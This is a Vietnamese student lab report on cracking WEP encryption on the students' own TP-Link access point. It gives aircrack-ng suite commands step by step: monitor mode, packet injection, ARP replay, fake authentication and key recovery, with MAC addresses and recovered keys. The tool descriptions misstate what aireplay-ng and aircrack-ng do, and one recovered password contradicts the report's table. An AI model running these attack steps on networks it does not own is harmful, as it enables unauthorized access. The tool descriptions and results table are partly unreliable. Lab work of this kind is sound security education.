 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![sa](https://drive.google.com/uc?id=1aHCm0PJLO8PYOZOUbA4uDkjaSs8BpUC0)
### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, kismet để crack password**
**Các bước thực hiện:**
Bước 1: Tìm kiếm Wireless Adapter
#airmon-ng
Bước 2: Bật chế độ monitor cho wireless adapter
#airmon-ng start wlan0
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó
#airodump-ng wlan0mon 
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon
Bước 5: Bắt các IV được sinh ra từ Access point
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon
Bước 7: Fake authentication với AP
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key
#Aircrack-ng [tên file capture đã bắt ở trên]

**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**
Bước 1: Tìm kiếm Wireless Adapter
#airmon-ng
![sa](https://drive.google.com/uc?id=1uw_2dOEvhjbrrw39FNjiHV-W9HovPF3k)
Bước 2: Bật chế độ monitor cho wireless adapter
#airmon-ng start wlan0
![sa](https://drive.google.com/uc?id=1klvZX7Vj4l27zTVmuFzCbkknZJ36qB5p)
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó
#airodump-ng wlan0mon 
![sa](https://drive.google.com/uc?id=1e9V3GUB15kzb4qrJDE94RguO1HMLOdPK)
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon
![sa](https://drive.google.com/uc?id=1uxm-idFgvZ5wYasNEURXoABnXALi00dR)
Bước 5: Bắt các IV được sinh ra từ Access point
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon
![sa](https://drive.google.com/uc?id=1TE5gIzEYoWYW751QPy6p0rQitV_cZrUB)
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon
![sa](https://drive.google.com/uc?id=1XDJcZXvDwVbhu2oRqu5ueBXxtbrMnjCQ)
Bước 7: Fake authentication với AP
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon
![sa](https://drive.google.com/uc?id=1vmrTDRr4ZRH7GWkaXZvIz61xFFGcrrRd)
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key
#Aircrack-ng WEPcrack-01.cap
![sa](https://drive.google.com/uc?id=1Ar-9jMWRtuKf14EEidEA6OFoufx6MUy_)
![sa](https://drive.google.com/uc?id=1_LqFv5njNnMt8-5ANaBGzK4tWKCBUKLO)
* ==> tìm được key : _*KietKhe.@/;

**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![sa](https://drive.google.com/uc?id=10MKiqhKt1L1r4MzCQqTGlo3_HmK3f5wD)
![sa](https://drive.google.com/uc?id=1T7wnhI2tkVsIPaS9STrJIO5X4ysK682F)
![sa](https://drive.google.com/uc?id=1rrWt5BUhcwyHifX16vF7ZrZg2WqlhwOr)
#### **II.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
**Chi tiết thực hiện:**
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:
![sa](https://drive.google.com/uc?id=1Q116yxgW5UeJnRkT7PAjwhSzP3LsDaRo)
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel
![sa](https://drive.google.com/uc?id=1FnH8ipAHtR8JKaZiZOozRRV2uQ-JnYTj)
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password
![sa](https://drive.google.com/uc?id=1Ld98sXavr3T1i0Bs37KSsLlLvadcgeyh)
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)
![sa](https://drive.google.com/uc?id=147xuSDynLMEtdPk6-v_E_qBasmfqQm7V)
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**
![sa](https://drive.google.com/uc?id=1P7_Tc3PPnm4OXm_3MQsnxc9ak3KRZ2QS)
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap
![sa](https://drive.google.com/uc?id=1eWIPG86Zxlmq-5vUNfPFJH3rgTkI7v40)
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] 
![sa](https://drive.google.com/uc?id=1HzWajrfP8gYguY2NiI9NfT4OVIL4qQ4P)
==> Đã tìm được password (  _*MraK12.@#/;  )
**Làm tương tự với trường hợp còn lại. Kết quả:**
![sa](https://drive.google.com/uc?id=1rMJasjiPx1NEbXk3CdFRk6SdQnqnh45X)











